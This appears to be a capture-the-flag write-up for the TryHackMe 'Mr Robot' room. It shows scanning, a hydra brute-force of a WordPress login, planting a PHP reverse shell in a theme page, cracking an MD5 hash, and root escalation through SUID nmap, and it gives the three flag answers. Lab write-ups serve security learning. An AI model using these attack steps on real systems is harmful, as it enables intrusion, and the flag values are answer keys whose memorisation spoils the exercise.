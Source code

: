 ###### Based on the Mr. Robot show, can you root this box?
Room: https://tryhackme.com/room/mrrobot
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xxx.xxx  
```
PORT    STATE  SERVICE  REASON         VERSION
22/tcp  closed ssh      reset ttl 63
80/tcp  open   http     syn-ack ttl 63 Apache httpd
443/tcp open   ssl/http syn-ack ttl 63 Apache httpd
```

**gobuster dir** http://xx.xx.xxx.xxx --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 
```
/images               (Status: 301) [Size: 236] [--> http://xx.xx.xxx.xxx/images/]
/blog                 (Status: 301) [Size: 234] [--> http://xx.xx.xxx.xxx/blog/]  
/sitemap              (Status: 200) [Size: 0]                                     
/login                (Status: 302) [Size: 0] [--> http://xx.xx.xxx.xxx/wp-login.php]
/rss                  (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/]       
/video                (Status: 301) [Size: 235] [--> http://xx.xx.xxx.xxx/video/]    
/0                    (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/0/]          
/feed                 (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/]       
/wp-content           (Status: 301) [Size: 240] [--> http://xx.xx.xxx.xxx/wp-content/]
/admin                (Status: 301) [Size: 235] [--> http://xx.xx.xxx.xxx/admin/]     
/atom                 (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/atom/]   
/image                (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/image/]       
/audio                (Status: 301) [Size: 235] [--> http://xx.xx.xxx.xxx/audio/]     
/intro                (Status: 200) [Size: 516314]                                    
/css                  (Status: 301) [Size: 233] [--> http://xx.xx.xxx.xxx/css/]       
/wp-login             (Status: 200) [Size: 2613]                                      
/rss2                 (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/]        
/license              (Status: 200) [Size: 309]                                       
/wp-includes          (Status: 301) [Size: 241] [--> http://xx.xx.xxx.xxx/wp-includes/]
/js                   (Status: 301) [Size: 232] [--> http://xx.xx.xxx.xxx/js/]         
/Image                (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/Image/]        
/rdf                  (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/rdf/]     
/page1                (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/]              
/readme               (Status: 200) [Size: 64]                                         
/robots               (Status: 200) [Size: 41]                        

```

However, most of these are forbidden to access.  

* xx.xx.xxx.xxx/wp-login 
* xx.xx.xxx.xxx/robots.txt

Are the directories that matter to us.  

At **robots.txt** we can find a password list called **fsocity.dic** we can download using wget http://xx.xx.xxx.xxx//fsocity.dic  
**Note**: It's _fsocity_ and NOT _fsociety_.  

**The first flag is at xx.xx.xxx.xxx/key-1-of-3.txt and is 073403c8a58a1f80d943455fb30724b9** **[1]**.  

After some more looking around, I decided that we have enough to start bruteforcing the Wordpress Login since I couldn't find anything else useful enough.  
**hydra** -l Elliot -P fsocity.dic xx.xx.xxx.xxx http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30

The password happens to be **ER28-0652**.

Once we're logged in Elliot's account, we can go and change one of the .php's pages source code with a PHP reverse shell.  
I edited the 404.php page of twentyfifteen's theme and replaced the source code with a PHP reverse shell.  

I got a reverse shell under the **daemon** "user".  
However, it was easy to escalate privileges since in /home/robot there was a raw MD5 hash that I could crack using john the ripper.  
> abcdefghijklmnopqrstuvwxyz

After we're under **robot** user, we can read the **flag-2-of-3.txt** file.  

**Second flag is at /home/robot/key-2-of-3.txt and is 822c73956184f694993bede3eb39f959** **[2]**.  

To escalate privileges, I first took a look at what I can execute by running
**find** / perm +6000 2>/dev/null | grep "/bin/"

I used the **nmap** located at /usr/local/bin/nmap to escalate my privileges to root.
**nmap --interactive**
nmap> **!sh**

```
# whoami
whoami
root
```

**The third and final flag is at /root/key-3-of-3.txt and is 04787ddef27c3dee1ee161b21670b4e4** **[3]**. 
